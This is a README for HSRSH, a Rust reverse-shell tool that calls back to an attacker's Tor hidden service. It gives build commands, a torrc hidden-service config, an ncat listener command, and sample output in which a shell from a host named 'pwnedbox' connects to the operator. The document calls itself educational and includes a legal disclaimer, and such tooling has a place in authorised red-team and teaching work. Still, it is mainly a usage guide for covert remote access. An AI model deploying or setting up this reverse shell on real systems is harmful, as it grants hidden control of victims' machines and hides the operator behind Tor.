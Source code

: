 # HSRSH

Hidden Service Reverse Shell, aka HSRSH

This was a quickly written tool for demonstrating a reverse shell over a hidden service all in
one binary and an excuse to play with Rust. Solely for educational purposes.

## Building

```
$ git clone https://github.com/dustyfresh/hsrsh

$ cd hsrsh

$ cargo build --release

# Release binary is ./target/release/hsrsh
```


1. Configure your hidden service server you will be accepting the shell connection on. Make sure netcat is installed, and add this to your ```torrc```, and then start tor

  ```
    HiddenServiceDir /var/lib/tor/hidden_service/
    HiddenServicePort 1337 127.0.0.1:1337
  ```
  Once Tor is bootstrapped you can get the onion address from the hidden service directory

  ```
  $ cat /var/lib/tor/hidden_service/hostname
  changeme.onion
  ```

2. Edit ```src/main.rs``` and add your onion address to the ```ONION_LISTENER``` variable

3. Start listener on the hidden service using ```ncat```. MAKE SURE TO ONLY ALLOW LOCALHOST CONNECTIONS

  ```
    user@localhost:~$ ncat --allow 127.0.0.1 -nvl 127.0.0.1 -p 1337
    Ncat: Listening on 0.0.0.0:1337
  ```

4. Execute reverse shell binary, it will create a local tor instance and connect to your listener. This takes about 15 seconds.
    ```
    user@pwnedbox:~$ ./hsrsh
    ```

5. If everything is setup properly your shell should connect after about 20 seconds or so assuming the tor and internet connection is stable.

  ```    
    user@localhost:~$ ncat --allow 127.0.0.1 -nvlp 1337
    Ncat: Version 7.60 ( https://nmap.org/ncat )
    Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
    Ncat: Listening on :::1337
    Ncat: Listening on 0.0.0.0:1337
    Ncat: Connection from 127.0.0.1.
    Ncat: Connection from 127.0.0.1:45964.
    user@pwnedbox:~$ uptime
     13:37:02 up 16 days, 46 min,  1 user,  load average: 0.82, 0.93, 1.43
  ```

To do:
  - support tls
  - windows support
  - Better / more Rust-like error handling

Things that I read that helped me out a lot with this:
- https://github.com/isdrupter/onionslicer
- https://stackoverflow.com/questions/48958814/what-is-the-rust-equivalent-of-a-reverse-shell-script-written-in-python

## Disclaimer
This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License v3.0 for more details at http://www.gnu.org/licenses/gpl-3.0.html.

Usage of hsrsh for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.
